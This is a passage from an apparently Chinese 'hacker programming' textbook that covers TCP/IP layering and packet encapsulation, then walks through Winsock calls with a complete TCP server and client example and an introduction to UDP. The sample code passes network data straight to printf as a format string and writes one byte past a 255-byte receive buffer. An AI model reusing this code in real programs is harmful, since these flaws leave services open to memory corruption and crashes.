- 测试环境：Windows XP

#### 1.3.1 网络通信编程基础

网络对于黑客来说有着非同寻常的意义，网络是黑客生存的平台，有了网络的出现才有了黑客技术的出现和发展。所以网络通信编程当然也是广大黑迷非常热爱的技术之一，下面将带大家进入网络编程的精彩世界。

##### 1.3.1.1 网络协议讲解

目前的网络通信技术都是基于协议的，协议是网络上所有设备（服务器、交换机、路由器等）之间通信规则的集合，它定义了通信时信息必须采用的格式和这些格式的意义。通俗地说，协议就是网络之间沟通、交流的桥梁，只有相同网络协议的计算机才能进行信息的沟通与交流。这就好比人与人之间交流所使用的各种语言一样，只有使用相同语言才能进行很好的交流。

###### 1.3.1.1.1 TCP/IP 协议的组成

> **编程训练站**

**协议是分层的**

大部分网络都是以层的形式组织在一起的，每一层都建立在它的下一层之上。我们把在一个计算机上的第 n 层和另一个计算机上同一层交流所使用的规则和约定组合起来的集合称作第 n 层协议。

就像前面说的，目前网络通信技术都是基于协议的，那么现在应用最广泛的就是 TCP/IP 协议族了。在 TCP/IP 协议族中包含了很多协议，比如 FTP（远程文件传输）、POP3（电子邮件）、HTTP（WEB 协议）等。既然它包含了这么多常用的协议，那么我们就必须要学习这个协议族了，下面我们就来具体讨论这个协议族。

> **编程训练站**

**古老的 OSI 参考模型**

为了帮助不同厂商标准化他们的网络软件，1974 年国际标准化组织（ISO, International Organization For Standardization）为在机器之间传送数据定义了一个软件模型，即 OSI 参考模型，如图 6 所示。



图6

OSI 参考模型仅是一个理想方案，几乎没有什么系统能够完全实现它，它的作用是给人们一个设计网络体系的框架；TCP/IP 协议是在 OSI 的基础上建立起来的，它只实现了 OSI 模型的 5 层，如图 7 所示。

由于物理层的协议在 TCP/IP 协议族中并没有定义，所以下面不作介绍。我们来看其它层：链路层，有时也称作数据链路层或网络接口层，通常包括操作系统中的设备驱动程序和计算机中对应的网络接口卡。

网络层：有时也称作互联网层，处理分组在网络中的活动，例如分组的选路。在 TCP/IP 协议族中，网络层协议包括 IP 协议（网际协议）、ICMP 协议（Internet 互联网控制报文协议）以及 IGMP 协议（Internet 组管理协议）。



传输层：此层主要为两台计算机上的应用程序提供端到端的通信。在 TCP/IP 协议族中，有两个不同的传输协议：TCP（传输控制协议）和 UDP（用户数据报协议）。

TCP 为两台主机提供可靠性的数据通信，它所做的工作包括把应用程序交给它的数据分成合适的小块交给下面的网络层，确认接收到的分组等。

UDP 则为应用层提供了一种非常简单的服务，它只是把称作数据报的分组从一台主机发送到另一台主机，但并不保证数据报能到达另一端。

应用层：此层负责处理特定的应用程序细节，如定义网络通信和数据传输的用户接口，提供 Telnet（远程登录）、FTP（文件传输）等标准服务。

###### 1.3.1.1.2 基于 TCP/IP 协议的数据传输

**TCP/IP 协议的通信中它的基本传输单位是数据包。**

> **编程训练贴士**

**什么是数据包？**

在 TCP/IP 下要发送数据，事先必须对数据进行封装，加上各种必需的数据结构，封装完的数据就叫作数据包。

我们可以用一个形象的例子来说明什么是数据包，比如我们寄信的时候。如果我们只用信纸，那当然是寄不出去的，必须要把信纸装在信封里，并且写上收信人的地址、邮编、贴上邮票。而这里的信纸就相当于数据，信封和它上面的地址、邮编、邮票就相当于数据在被封装时添加上去的必要的数据结构。

那么数据到底是怎么被封装成数据包的呢？具体过程如图 8 所示。



图中只以 TCP 数据包为例，UDP 包和 TCP 包基本是一致的。我们可以看出，从用户数据开始，每经过一层就要给数据加上一个协议首部。我们这里先简单了解一些首部的作用，IP 首部是用来实现路由寻址工作的，TCP 首部是为了确保数据的可靠传输。

这样封装好的数据包就可以从一个主机发送到另一个主机了，当另一个主机的网卡收到数据包后，由下到上，依次经过以太网驱动程序（链路层）-> IP（网络层）-> TCP（传输层）-> 应用程序（应用层），每经过一层就把这一层的协议首部从数据包上去掉，等最后到应用程序的时候，就只有用户数据了，也就是我们平常使用网络程序时肉眼看得到的接收到的数据。

整个通信的过程如图 9 所示。



##### 1.3.1.2 Winsock 编程基础

正如图 9 中所表示的，应用程序并不需要考虑数据包的封装和去掉数据包头等细节工作（当然编写嗅探程序例外），所以我们暂时只需要考虑怎么在应用程序中实现网络通信编程。

微软为我们提供了强大的网络编程接口 Winsock，这是一个真正的和协议无关的编程接口，所以我们并不需要考虑数据包封装之类的问题。

##### 1.3.1.3 用 Winsock 实现网络通信

其实 Winsock 编程接口就是微软提供的一系列 API 函数，所以在调用函数之前包含其头文件 Winsock2.h。由于 VC++6.0 默认没有连接这些函数的导入库文件，所以还需要添加对 WS2_32.lib 的连接，具体命令如下：

```c
#include <Winsock2.h>
#pragma comment(lib, "ws2_32.lib")
```

那么 Winsock API 到底是怎么实现网络通信的呢？具体过程如图 10 所示。这是一个经典的服务器端和客户端用 Winsock API 实现 TCP 通信的过程。下面将根据这个连接过程，一步步为大家讲解具体编程的实现，先是服务器端的编写。

由于 Winsock 库没有被 VC++6.0 默认装载，所以在调用 Winsock 函数之前必须装载 Winsock 库，否则将会返回 SOCKET_ERROR 错误。这也就是图中的第一步，调用 WSAStartup 函数初始化 WSA，其原型如下：

```c
int WSAStartup(
    WORD wVersionRequested,
    LPWSADATA lpWSAData
);
```

`wVersionRequested` 参数用来指定想要加载 Winsock 库的版本。  
`lpWSAData` 参数指向一个 LPWSADATA 结构指针，用来保存 WSAStartup 函数返回的 Winsock 库的版本信息，这里我们不需要具体了解。

此函数调用成功返回 0，失败可调用 `WSAGetLastError` 函数确定原因。装载 Winsock 库的代码如下：

```c
WSADATA wsaData;
WORD sockVersion = MAKEWORD(2, 2);
if (WSAStartup(sockVersion, &wsaData) != 0)
    return 0;
```



> **编程小贴士：MAKEWORD 函数**

在上面代码中调用了 `MAKEWORD` 函数，这是一个宏，它的作用是将两个 byte 型合并成一个 word 型，但不是相加，而是一个在高 8 位，一个在低 8 位。

那么第一步就这么简单地完成了，这样就可以顺利地调用 Winsock 函数了。接下来我们要调用 socket 函数建立套接字。

> **编程小贴士：什么是套接字（Socket）？**

套接字可以看成在两个程序进行通信连接中的一个端点，一个程序将一段信息写入套接字中，该套接字将这段信息发送到另外一个套接字中，使这段信息能传送到其他程序。

Socket 函数的原型如下：

```c
SOCKET socket(
    int af,
    int type,
    int protocol
);
```

`af` 参数用来指定套接字使用的地址格式，这里只能用 `AF_INET`。

###### 套接字类型与协议

Type 参数用来指定套接字的类型。具体类型如下：

- **SOCK_STREAM**：流套接字，使用 TCP 提供有连接的可靠传输。
- **SOCK_DGRAM**：数据报套接字，使用 UDP 提供无连接的不可靠传输。
- **SOCK_RAW**：原始套接字，Winsock 接口并不使用某种特定的协议去封装它，而是由程序自行处理数据报和协议首部。由于这里是 TCP 通信，所以选择 SOCK_STREAM。

Protocol 是配合 type 使用的，用来指定协议类型。这里是 TCP 通信，所以使用 IPPROTO_TCP；假如是 UDP 通信，那么就是 IPPROTO_UDP，其对应的 type 也应该是 SOCK_DGRAM。

当函数成功调用时返回一个新的 SOCKET 句柄，失败则返回 INVALID_SOCKET。

> **什么是句柄？**  
> 句柄实际上是一个 Long（整型）型的数据，它是 Windows 用来标识被应用程序所建立或使用对象的唯一整数。  
> Windows 使用各种各样的句柄进行标识，诸如应用程序实例、窗口、控制、位图、GDI 对象等等。形象点说，句柄就是一个标识符，是拿来标识对象或者项目的，它就像我们的姓名一样，每个人都会有一个，不同的人的姓名不一样。但是，也可能有名字和你一样的人。应用程序几乎总是通过调用一个 Windows 函数来获得一个句柄，之后其他的 Windows 函数就可以使用该句柄，以引用相应的对象。

讲完了 socket 函数，我们就可以轻松地建立一个套接字了，具体代码如下：

```c
SOCKET sListen = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
if (sListen == INVALID_SOCKET)
{
    printf("socket error\n");
    return 0;
}
```

套接字已经建立了，那么下一步就应该是绑定本地地址和端口等信息到套接字上。这要说明下，客户端在建立套接字后可以直接连接服务器端，不需要调用 bind 函数把本地地址和端口绑定到套接字上，因为在调用 connect 函数后会自动绑定，当然端口是随机的。下面是 bind 函数的原型：

```c
int bind(
    SOCKET s,
    const struct sockaddr FAR* addr,
    int namelen
);
```

s 参数是指向一个有效的套接字句柄的，由 socket 函数返回。  
addr 参数指向要关联的本地地址，这里是一个 sockaddr 结构，此结构具体如下：

```c
struct sockaddr_in {
    short int sin_family;
    unsigned short int sin_port;
    struct in_addr sin_addr;
    unsigned char sin_zero[8];
};
```

sin_family 域必须设置为 AF_INET。

sin_port 域指定了 TCP 或 UDP 通信服务的端口号。

> **重点编程小贴士：端口号的范围**
- 0~1023 由 IANA 管理，保留为公共服务使用；
- 1024~49151 是普通用户注册的端口号；
- 49152~65535 是动态端口号。

为了避免和其他应用程序或者系统程序使用相同的端口号而造成冲突，一般编程都选用 1024~49151 之间的端口号。

sin_addr 域用来存储 32 位 IP 地址。在这个结构中我们只需要知道其中包含了一个联合 S_un，联合中有一个 u_long 类型 S_addr 用来存储 32 位的二进制数所表示的 IP 地址。我们可以使用 inet_addr 函数将一个小数点十进制 IP 转换成 32 位二进制数 IP。

inet_ntoa 函数是 inet_addr 函数的逆函数，将一个 32 位二进制数表示的 IP 地址转化为用小数点十进制字符串表示的 IP 地址。

sin_zero 域还没有被使用。

namelen 参数指向一个 sockaddr 结构的大小，可由 sizeof 函数取得。

函数成功调用时返回 0，调用失败时返回 SOCKET_ERROR。下面给出绑定本地 IP 的具体代码：

```c
sockaddr_in sin;

sin.sin_family = AF_INET;
sin.sin_port = htons(4500); // htons 函数将主机的无符号短整型数转换成网络字节顺序，4500 端口就是本地要监听的端口
sin.sin_addr.S_un.S_addr = INADDR_ANY; // INADDR_ANY 表示所有可用地址
if(bind(sListen, (LPSOCKADDR)&sin, sizeof(sin)) == SOCKET_ERROR)
{
    printf("bind error\n");
    return 0;
}
```

下一步就是调用 listen 函数，设置套接字进入监听状态，其函数原型如下：

```c
int listen(SOCKET s,
           int backlog);
```

s 参数指向一个套接字句柄，由 socket 函数创建。  
backlog 参数表示监听队列中允许保持的尚未处理的最大连接数量，通俗地说就是同时允许的最大连接数。

函数成功调用时返回 0，调用失败时返回 SOCKET_ERROR。

> **重点编程小贴士：listen 函数的使用范围**  
> listen 函数仅支持连接的套接字，如 SOCK_STREAM 类型套接字，也就是基于 TCP 连接的套接字。像 SOCK_DGRAM 类型套接字（基于 UDP 的）就不能，也不需要调用 listen 函数。

### Listen 函数调用的具体代码如下

```c
if (listen(s, 5) == SOCKET_ERROR) { // 设置套接字进入监听状态，最大同时 5 个连接
    printf("listen error.\n");
    return 0;
}
```

设置套接字进入监听状态后，下一步就应该要进入循环了，此循环的意义在于可以使程序在结束一个连接后，继续处理其他连接。先是调用 accept 函数等待接收客户端的连接，accept 函数原型如下：

```c
SOCKET accept(
    SOCKET s,
    struct sockaddr* addr,
    int* addrlen
);
```

s 参数指向一个套接字句柄，由 socket 函数返回。  
addr 参数指向一个 sockaddr 结构指针，用来存放客户端的地址信息。  
addrlen 参数指向一个 sockaddr 结构长度的指针，可以由 sizeof 函数取得。

在调用了 accept 函数后，如果在阻塞模式下，那么 accept 会一直等待下去，直到有连接后才往下执行。而当有连接后，accept 函数就会返回一个新的标识客户端的套接字句柄。在得到套接字句柄后我们就可以利用它来接收和发送数据了。下面就来看一下 send 和 recv 函数的原型：

```c
int recv(
    SOCKET s,
    char FAR* buf,
    int len,
    int flags
);

int send(
    SOCKET s,
    const char FAR* buff,
    int len,
    int flags
);
```

recv 函数用于接收数据，send 函数用于发送数据，它们的参数基本相同：

- s 参数指向一个套接字句柄，由 accept 函数返回。
- buff 参数指向发送或接收数据的缓冲区。
- len 参数指向发送或接收数据的缓冲区长度。
- flags 参数表示调用方式，一般设为 0。

recv 函数在调用成功时返回收到的字节数，失败时返回 SOCKET_ERROR。

在数据传输完毕后我们必须调用 closesocket 函数来关闭由 accept 返回的套接字，这样就结束了一次和客户端的通信。closesocket 函数只有一个参数，就是要关闭的套接字句柄。下面给出这一循环过程的代码：

```c
int nAddrLen = sizeof(remoteAddr);
SOCKET sClient;
char revData[255];
while (TRUE)
{
    // 接受一个新连接
    sClient = accept(sListen, (SOCKADDR*)&remoteAddr, &nAddrLen);
    // accept 函数调用失败则继续等待连接。
    if (sClient == INVALID_SOCKET)
    {
        printf("accept() error");
        continue;
    }

    // 打印出连接者的 ip
    printf("接受到一个连接：%s \r\n", inet_ntoa(remoteAddr.sin_addr));
    // 直到收到有效数据时才打印出来
    int ret = recv(sClient, revData, 255, 0);
    if (ret > 0)
    {
        // 为了防止打印出错，把字符串结尾设成 0x00
        revData[ret] = 0x00;
        printf(revData);
    }

    char *buff = "\r\n黑客编程，我来了\r\n";
    // 发送数据
    send(sClient, buff, strlen(buff), 0);
    // 关闭套接字句柄，结束会话
    closesocket(sClient);
}
```

那么最后，在退出这个服务器端程序前，我们必须再次调用 closesocket 函数关闭由 socket 函数建立的套接字句柄，并且调用 WSACleanup 函数释放 Winsock 库。WSACleanup 函数没有参数，直接调用即可。

服务器端的整个过程讲解完了，下面我们来看代码（源码在光盘“第一章\Windows 系统编程基础\tcpserver”下）：

```c
#include <Winsock2.h>
#pragma comment(lib, "ws2_32")
#include <stdio.h>
int main(int argc, char* argv[])
{
    WSADATA wsaData;
    WORD sockVersion = MAKEWORD(2, 2);
    // 加载 Winsock 库
    if (WSAStartup(sockVersion, &wsaData) != 0)
    {
        return 0;
    }

    // 创建套接字
    SOCKET sListen = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sListen == INVALID_SOCKET)
    {
        printf("socket error\n");
        return 0;
    }

    // 在 sockaddr_in 结构中装入地址信息
    sockaddr_in sin;
    sin.sin_family = AF_INET;
    sin.sin_port = htons(4500);   // htons 函数将主机无符号短整型转换成网络字节顺序
    sin.sin_addr.S_un.S_addr = INADDR_ANY;

    // 使套接字和本地地址绑定
    if (bind(sListen, (LPSOCKADDR)&sin, sizeof(sin)) == SOCKET_ERROR)
    {
        printf("bind error\n");
        closesocket(sListen);
        return 0;
    }

    // 设置套接字进入监听模式
    if (listen(sListen, 5) == SOCKET_ERROR)
    {
        printf("listen error\n");
        closesocket(sListen);
        return 0;
    }

    // 循环接受客户的连接请求
    sockaddr_in remoteAddr;
    SOCKET sClient;
    int nAddrLen = sizeof(remoteAddr);
    char revData[255];
    while (TRUE)
    {
        // 接受一个新连接
        sClient = accept(sListen, (SOCKADDR*)&remoteAddr, &nAddrLen);

        // accept 函数调用失败则继续等待连接
        if (sClient == INVALID_SOCKET)
        {
            printf("accept() error");
            continue;
        }

        // 打印连接者的 IP
        printf("接受到一个连接：%s\r\n", inet_ntoa(remoteAddr.sin_addr));

        // 直到收到有效数据时才打印出来
        int ret = recv(sClient, revData, 255, 0);
        if (ret > 0)
        {
            // 为了防止打印出错，把字符串结尾设成 0x00
            revData[ret] = 0x00;
            printf(revData);

            char* buff = "\r\n黑客编程，我来了\r\n";
            // 发送数据
            send(sClient, buff, strlen(buff), 0);
        }

        // 关闭套接字句柄，结束会话
        closesocket(sClient);
    }

    closesocket(sListen);
    WSACleanup();
    return 0;
}
```

###### 客户端实现（TCP）

服务器端已经实现了，那么下面我们就来实现客户端。客户端和服务器端的唯一不同就是在调用 `socket` 函数建立套接字后，不用调用 `bind` 函数绑定本地地址到套接字上，而是可以直接调用 `connect` 函数连接服务器端。其他过程和服务器端一样，`connect` 的函数原型如下：

```c
int connect(
    SOCKET s,
    const struct sockaddr FAR *name,
    int namelen
);
```

`s` 参数指向一个套接字句柄，由 `socket` 函数创建。  
`name` 参数指向了一个 `sockaddr` 结构指针，包含了服务器端的地址信息。  
`namelen` 参数指向一个 `sockaddr` 结构的长度，可以由 `sizeof` 函数取得。  
当函数成功调用时返回 0，调用失败时返回 `SOCKET_ERROR`。

这里还有一点要说明，在服务端程序中调用 `send` 和 `recv` 函数的第一个套接字句柄参数是由 `accept` 函数返回的，但是在客户端中这个句柄参数是用 `socket` 函数返回的。

下面我们来看看具体的代码实现（源码在光盘“第一章\Windows 系统编程基础\tcpclient”下）：

```c
#include <Winsock2.h>
#pragma comment(lib, "ws2_32")
#include <stdio.h>

int main(int argc, char* argv[])
{
    WSADATA wsaData;
    WORD sockVersion = MAKEWORD(2, 2);
    // 加载 Winsock 库
    if (WSAStartup(sockVersion, &wsaData) != 0)
    {
        return 0;
    }

    // 创建套接字
    SOCKET sClient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sClient == INVALID_SOCKET)
    {
        printf("socket error\n");
        return 0;
    }

    // 在 sockaddr_in 结构中装入服务器端地址信息
    sockaddr_in servAddr;
    servAddr.sin_family = AF_INET;
    servAddr.sin_port = htons(4500);
    servAddr.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");

    if (connect(sClient, (sockaddr*)&servAddr, sizeof(servAddr)) == SOCKET_ERROR)
    {
        printf("connect error\n");
        closesocket(sClient);
        return 0;
    }

    char *buff = "\n黑客编程，我来了!\r\n";
    // 发送数据
    send(sClient, buff, strlen(buff), 0);

    char revData[255];
    // 直到收到有效数据时才打印出来
    int ret = recv(sClient, revData, 255, 0);
    if (ret > 0)
    {
        // 为了防止打印出错，把字符串结尾设成 0x00。
        revData[ret] = 0x00;
        printf(revData);
    }
    closesocket(sClient);
    WSACleanup();
    return 0;
}
```

执行效果如图 11 所示。



图 11

上面这一程序实现了 TCP 通信，下面我们再来简单地了解下 UDP 通信编程。UDP 通信编程相对 TCP 来说要简单得多。

###### UDP 通信简介

首先我们先来了解下 UDP 服务端。UDP 服务端在调用 bind 函数前的步骤和 TCP 服务端差不多，只不过我们建立的是 UDP 套接字，即 socket 函数的第三个参数传递 IPPROTO_UDP 即可。在调用完 bind 函数后程序并不需要像 TCP 服务端那样调用 listen 函数监听套接字，直接就可以发送或接收数据了。不过发送和接收数据的函数和 TCP 通信有所不同。发送数据调用的是 sendto 函数，接收数据调用的是 recvfrom 函数。

sendto 函数原型如下：

```c
int sendto(
    SOCKET s,
    const char FAR *buf,
    int len,
    int flags,
    const struct sockaddr FAR *to,
    int tolen
);
```

- `s` 参数指向了发送数据的套接字。
- `buf` 参数指向了要发送数据的缓冲区。
- `len` 指定了要发送数据的长度。
- `flags` 参数指定了调用方式，一般设 0。
- `to` 参数指向了包含目标地址和端口的 `sockaddr_in` 结构。
- `tolen` 参数指定了 `sockaddr_in` 结构的大小。

如果函数执行成功，就返回发送的数据大小。我们再来了解下 `recvfrom` 函数，其函数原型如下：

```c
int recvfrom(
    SOCKET s,
    char FAR *buf,
    int len,
    int flags,
    struct sockaddr FAR *from,
    int *fromlen
);
```

与 `sendto` 函数相比，只有最后两个参数不同。`from` 参数指向了包含发送者信息的 `sockaddr_in` 结构，`fromlen` 参数指定了返回的 `sockaddr_in` 结构的大小。如果函数调用成功，则返回接收到的数据大小。

